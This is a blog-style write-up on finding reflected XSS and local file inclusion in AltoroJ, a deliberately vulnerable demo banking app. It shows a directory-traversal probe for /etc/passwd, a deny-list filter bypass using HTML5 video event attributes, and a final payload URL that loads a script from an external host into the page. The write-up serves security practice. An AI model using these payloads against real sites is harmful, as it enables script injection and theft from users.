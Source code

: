 # AltoroJ - Reflected XSS in Error Messages via `Content` Parameter
Jonathan Gregson, 11 September 2020

## Brief
I wanted to practice finding XSS vulnerabilities on web apps and searched for a vulnerable app online. I found the [AltoroJ](https://github.com/hclproducts/AltoroJ) project, but not before finding a hosted version on [demo.testfire.net](http://demo.testfire.net/). This writeup will be about my findings there.

## Discovery
As with every website I visit, my first instinct was to type `test<` into the search bar and see if the angle bracket was left unescaped. As expected, `<` was converted to `&lt;` in the output. Nothing can be that easy anymore.

I quickly got bored of the search bar as nothing was jumping out at me as unusual or dangerous. What did jump out though was that some of the links on the page were to `index.jsp` with HTM pages in the `content` parameter, like `index.jsp?content=inside_contact.htm`. This seemed like something that could be vulnerable to local file inclusion or directory traversal.

I replaced `inside_contact.htm` with `../../../../../../../../../../etc/passwd` in a final attempt at instant gratification, but unfortunately, the application returned a 500 internal server error, referencing a null pointer exception:

![HTTP Status 500 - Internal Server Error](images/http-status-500-internal-server-error.png)

Actually that all sounded very bad. I tried including the non-existent page `rnrgudvdhg.htm` and was given a much more helpful error message of `Failed due to The requested resource (/static/rnrgudvdhg.htm) is not available`. So whatever was passed in the `content` parameter the web app would look for in `static/`. We couldn't traverse back to the root of the file system yet, but could we traverse back out of `static` and include files from the root of the web app?

![http://demo.testfire.net/index.jsp?content=../login.jsp](images/index-jsp-include-login-jsp.png)

Looks like we could. We could even get recursive and have `index.jsp` include itself:

![http://demo.testfire.net/index.jsp?content=../index.jsp](images/index-jsp-include-index-jsp.png)

This was definitely vulnerable to LFI, but I was still craving for XSS. I'll come back to the FLI/traversal aspect of this parameter another time. Focusing on XSS again, I thought the error message from earlier looked interesting. It was like it was returning part of an exception to me without filtering it. I checked if I could include an angle bracket:

![http://demo.testfire.net/index.jsp?content=nothing<here](images/content-nothing-here.png)

It worked! This suggested to me that the application was taking my input and attempting to access system resources without validating it, and then returning exceptions to me, again without validating them. There was so much going on here, but again, back to XSS.

## Exploitation
A user's ability to get angle brackets into the DOM almost guarantees there is an XSS vulnerability or five somewhere. There are just too many things you can abuse in the DOM. I knew I could open HTML tags, so I tried to close one as well, but the output kept coming back sanitized. Some combinations of angle brackets seemed to be sanitized and some did not. Anyway, I decided to focus on the classic `<img src=x onerror=alert(1) foo="` trick and hope the `<img>` tag closed safely somewhere and executed the payload. But what I got back was odd:

![?content=<img%20src=x%20onerror=alert(1)%20foo=" => Failed due to](images/failed-due-to.png)

`Failed due to `? It was like an error was still occurring, but the exception output was being filtered, or there was none at all. I was getting this same result whenever I tried `onload=`, or `onerror=`, but not `onloa=`. In fact, every event attribute I tried caused this, as well as style attributes and a few other things.

I thought there must be something in place which is filtering my input after all, and blocking it if it detects certain known dangerous inputs. I was still able to include image tags and even display remote images, I just couldn't bind any event listeners to them in the HTML tag. It was frustrating - I knew I was so close. But I also knew that filtering input and output by looking for matches on a deny list is a terrible security approach, because developers inevitably miss something. As a developer, I can attest to this.

I noted that the site felt "old" overall, and thought that this filter might not be up to date on newer DOM events like touch events. I dropped in `ontouchstart=alert(1` and, with a litter user interaction, it worked!

![?content=%3Cimg%20src=%22//jdgregson.com/cat.png%22%20ontouchstart=alert(1](images/touch-start-xss.gif)

But this wasn't nearly good enough to feed by hunger for XSS. Not only did this require the XSS victim to be using a touch-based device, it also required the user to touch the image, and the site to place the image in a large, touchable spot. I needed payload that would trigger when the URL was loaded without any further interaction from the user.

I went back to trying to bypass this XSS filter. I tried using null bytes before, in the middle of, or end of the `onload=` attribute, but it always either broke the attribute or was blocked. I found that many or all HTML5 event attributes were not blocked, but most of them don't allow for execution on load, or don't apply to the tags I was using.

Many of the newer HTML5 events could be caused to fire on load, such as media events like `loadstart`, `loadeddata`, and `loadend`. But unfortunately, none of these events are fired by classic HTML tags like `<img>`. To make matters worse, the tags that will fire them are actually supposed to be used as a nested set of tags like:

    <video onloadstart="alert(1)">
        <source src="video.mp4">
    </video>

I wasn't able to get nearly half of that into a payload before the filter would block it. But I was determined to find a way to use the newer HTML5 tags since I wasn't able to get past the filter in any other meaningful way. Out of desperation, I sent nothing but a `<video>` tag for the parameter and to my amazement, not only did this make it past the filter, but the browser restructured the HTML output so that I had a closing `</video>` tag with spec-compliant text in between:

![?content=<video>](images/video-tag.png)

Why hadn't I tried this an hour before? It would have saved so much time. I tried again with `<video><source>` and the browser properly closed both tags. This was perfect! I added some new, unfiltered HTML5 event attributes and tested the payload:

![?content=%3Cvideo%20onloadedmetadata=%22alert(1)%22%3E%3Csource%20src=%22//jdgregson.com/vid.mp4%22%3E](images/video-onloadedmetadata-xss.png)

It worked! After a few hours of trial and error, I finally had a one-click reflected XSS payload:

    http://demo.testfire.net/index.jsp?content=%3Cvideo%20onloadedmetadata=%22alert(1)%22%3E%3Csource%20src=%22//jdgregson.com/vid.mp4%22%3E

Taking things a step further, I updated the payload to download a JavaScript file from an attacker-controlled website and add it to the DOM:

    http://demo.testfire.net/index.jsp?content=%3Cvideo%20onloadedmetadata=%22s=document.createElement('script');s.src='//jdgregson.com/xss.js';document.body.appendChild(s)%22%3E%3Csource%20src=%22//jdgregson.com/vid.mp4%22%3E

![Remote XSS payload](images/remote-xss-payload.png)

At long last I had my fill of vulns for the evening.
